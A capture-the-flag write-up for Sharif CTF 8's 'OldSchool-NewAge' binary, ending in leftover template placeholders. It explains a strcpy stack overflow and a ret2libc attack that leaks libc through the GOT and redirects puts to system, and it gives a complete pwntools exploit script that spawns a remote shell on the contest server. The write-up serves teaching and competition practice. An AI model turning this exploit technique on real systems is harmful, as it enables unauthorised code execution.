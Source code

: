 # __Sharif CTF 8__ 
## _OldSchool-NewAge_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Reverse | 75 | merrychap

**Description:** 

> It all started with a leak bang
nc ctf.sharif.edu 4801
Alternative: nc 213.233.161.38 4801

## Solution
### Binary recon
We are given [vuln4](./vuln4) binary and [libc.so.6](./libc.so.6). Let's take a look into the binary. After some reversing we get the next code:
```c
int copy_it(char *s1)
{
  char s2;

  strcpy(&s2, s1);
  return 0;
}

int main(int argc, const char **argv, const char **envp) {
  char s;

  puts("This time it is randomized...");
  puts("You should find puts yourself");
  fflush(stdout);
  fgets(&s, 200, stdin);
  copy_it(&s);
  puts("done!");
  return 0;
}
```
That's all binary. The most interesting function here is ```copy_it``` function. If we see this function in assembly and understand how much stack is allocated for local variables, then we will understand what to do next. 

<p align="center">
  <img src="screens/copy_it_asm.png">
</p>


### Finding the vulnerability
Taking into account that we input 200 characters in ```s1```, then it's obvious that here is an easy buffer overflow. Alright, we can overflow ```RET``` of ```copy_it``` function, but what should we do next? How do we get shell? 

### Exploitation of the binary
The idea is to make **```ret2libc```** attack. To make this, we have to leak a libc address. If we change the flow of the binary after overwriting ```RET``` into first ```puts``` function, making address of GOT as an argument for this ```puts```, then we leak a libc address. Pretty.

This overwriting gives us a chance to input characters one more time. Knowing libc address and the fact that argument for ```fgets``` lays right before ```RET``` address of ```copy_it``` (just debug and you will see it), then we can write into GOT entry.

Let's write address of calculated ```system``` into ```puts``` entry in GOT, then the last ```puts``` will give us the shell.


### Exploit
You can look at [exploit.py](./exploit.py) or look at just code below:

```python
import struct

from pwn import *


def to_n(addr):
    return struct.unpack('I', addr)[0]


def to_addr(n):
    return struct.pack('I', n)


def main():
    libc = ELF('./libc.so.6')
    
    binsh = to_addr(list(libc.search('/bin/sh'))[0])

    fgets      = '\x3e\x85\x04\x08'
    puts_addr  = '\x03\x85\x04\x08'
    puts_got   = '\x74\x98\x04\x08'
    fflush_got = '\x68\x98\x04\x08'

    pc = remote('ctf.sharif.edu', 4801)

    # puts_got here is argument for the next fgets.
    pc.sendline('AAAAAAAAAAAAAAAAAA' + puts_got + puts_addr + fflush_got)

    print(repr(pc.recvline()))
    print(repr(pc.recvline()))
    
    libc_base = to_n(pc.recvline()[:4]) - libc.symbols['fflush']
    binsh     = to_addr(to_n(binsh) + libc_base)
    system    = to_addr(libc_base + libc.symbols['system'])
    
    print('System address:  ' + hex(to_n(system)))
    print('/bin/sh address: ' + hex(to_n(binsh)))

    # BBBB is RET address of system and binsh is the first argument
    pc.sendline('AAAAAAAAAAAAAAAAAAAAAA' + system + 'BBBB' + binsh)

    pc.interactive()

if __name__ == '__main__':
    main()
```

### And this is subtitle
Text under the subtitle

> Flag here